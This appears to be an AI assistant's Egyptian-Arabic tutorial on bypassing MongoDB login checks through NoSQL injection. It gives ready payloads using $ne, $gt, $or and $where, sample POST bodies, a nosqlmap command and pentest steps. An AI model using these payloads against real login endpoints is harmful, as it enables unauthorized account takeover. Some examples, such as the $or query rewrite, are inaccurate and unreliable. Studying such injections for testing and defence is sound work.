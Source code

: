 
### **1. استخدام العامل `$ne` (غير مساوي)**
#### **إيه هو؟**
في قواعد NoSQL زي MongoDB، العامل `$ne` (Not Equal) بيخليك تتخطى شرط معين في الاستعلام لو المطور معملش فلترة كويسة للمدخلات.

#### **ازاي بيشتغل؟**
بدل ما تدخل قيمة باسوورد صحيحة، بتحط تعبير `$ne` مع قيمة غلط، فالاستعلام بيبقى دايماً صح لأنه بيقارن بـ "مش مساوي" بدل "مساوي".

#### **مثال عملي:**
- الاستعلام الأصلي في الباك إند:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
- جرب في حقل الباسوورد:
  ```
  {"$ne": "wrong"}
  ```
  الاستعلام هيبقى:
  ```javascript
  db.users.find({ username: "admin", password: {"$ne": "wrong"} });
  ```
  معناه: "جيب اليوزر admin طالما الباسوورد مش wrong"، يعني أي باسوورد صح هيدخلك.

- **اختبار يدوي:**
  لو الموقع بيستخدم JSON في الطلب:
  ```
  POST /login
  {"username": "admin", "password": {"$ne": "wrong"}}
  ```
  لو دخلت، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد وكلمة السر مش بطيخ"، لو قالك "اتفضل" من غير ما يسألك عن الكلمة الصح، يبقى الباب اتفتح بمزاجك!

---

### **2. استخدام العامل `$gt` أو `$lt` (أكبر من/أقل من)**
#### **إيه هو؟**
العاملين `$gt` (Greater Than) و `$lt` (Less Than) بيسمحولك تتخطى المصادقة باستخدام مقارنات بدل المساواة.

#### **ازاي بيشتغل؟**
بتحط شرط بيقول "الباسوورد أكبر من قيمة فاضية" مثلاً، فالاستعلام بيبقى صح دايماً طالما الباسوورد موجود.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
- في حقل الباسوورد:
  ```
  {"$gt": ""}
  ```
  الاستعلام هيبقى:
  ```javascript
  db.users.find({ username: "admin", password: {"$gt": ""} });
  ```
  معناه: "جيب اليوزر admin طالما الباسوورد أكبر من فاضي"، يعني أي حاجة هتنفع.

- **اختبار بـ POST:**
  ```
  POST /login
  {"username": "admin", "password": {"$gt": ""}}
  ```
  لو الصفحة دخلتك، يبقى الثغرة شغالة.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "لو كلمة السر أكبر من الصفر، دخلني"، لو دخلت من غير ما تقول الكلمة، يبقى الكنز بتاعك ببلاش!

---

### **3. استخدام `$or` لتجاوز الشرط**
#### **إيه هو؟**
العامل `$or` بيخليك تضيف شرط دايماً صح (True) للاستعلام، فتتخطى المصادقة حتى لو الباسوورد غلط.

#### **ازاي بيشتغل؟**
بتضيف `$or` مع شرط زي `"1": "1"`، فالاستعلام بيبقى دايماً صح بغض النظر عن الباسوورد.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
- في حقل اليوزر نيم:
  ```
  {"$or": [{"username": "admin"}, {"1": "1"}]}
  ```
  وفي الباسوورد أي حاجة (زي `test`). الاستعلام هيبقى:
  ```javascript
  db.users.find({ "$or": [{"username": "admin"}, {"1": "1"}], password: "test" });
  ```
  الـ `"1": "1"` دايماً صح، فهيدخلك حتى لو الباسوورد غلط.

- **اختبار بـ POST:**
  ```
  POST /login
  {"username": {"$or": [{"username": "admin"}, {"1": "1"}]}, "password": "test"}
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد أو أنا أي حد عايز يدخل"، لو فتحلك الباب، يبقى هو اللي بيحب يساعدك بمزاجه!

---

### **4. استخدام `$where` لتشغيل JavaScript**
#### **إيه هو؟**
في MongoDB، العامل `$where` بيخليك تشغل كود JavaScript في الاستعلام. لو الموقع بيسمح بده، تقدر تتخطى المصادقة أو تسحب بيانات.

#### **ازاي بيشتغل؟**
بتكتب تعبير JavaScript دايماً بيرجع `true` أو بيستخرج بيانات معينة.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
- في حقل اليوزر نيم:
  ```
  {"$where": "1 == 1"}
  ```
  الاستعلام هيبقى:
  ```javascript
  db.users.find({ "$where": "1 == 1", password: "whatever" });
  ```
  الـ `1 == 1` دايماً صح، فهيدخلك.

- **سحب بيانات:**
  ```
  {"$where": "this.username == 'admin'"}
  ```
  لو رد الموقع بنجاح، يبقى تقدر تلعب أكتر.

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "لو واحد زاي واحد، دخلني"، لو دخلت يبقى البواب بيحب الرياضيات وفتحلك الباب بسهولة!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **اختبار `$ne`:**
   - في فورم لوجين، حط في الباسوورد:
     ```
     {"$ne": "wrong"}
     ```
     لو دخلت، يبقى الثغرة شغالة.

2. **اختبار `$gt` أو `$lt`:**
   - جرب:
     ```
     {"$gt": ""}
     ```
     أو:
     ```
     {"$lt": "z"}
     ```
     لو نجحت، دوّن الطريقة.

3. **اختبار `$or`:**
   - استخدم:
     ```
     {"$or": [{"username": "admin"}, {"1": "1"}]}
     ```
     في اليوزر نيم، وأي باسوورد، وشوف لو بيدخل.

4. **اختبار `$where`:**
   - جرب:
     ```
     {"$where": "1 == 1"}
     ```
     لو نجح، حاول تستخرج بيانات زي:
     ```
     {"$where": "this.username == 'admin'"}
     ```

5. **استخدام أدوات (NoSQLmap):**
   - شغل:
     ```
     nosqlmap -u "http://example.com/login.php?username=admin&password=test"
     ```
     واختار خيار "Authentication Bypass" لو موجود.

#### **نصيحة:**
- استخدم Burp Suite عشان تعترض الطلب وتحط الـ Payloads دي يدويًا.
- لو الموقع بيرجع أخطاء، دوّنها عشان تعرف نوع الداتابيز (MongoDB مثلاً).

---

ها، عايز أشرح حاجة زيادة زي ازاي تستخرج بيانات بعد التجاوز أو أعمق في NoSQLmap؟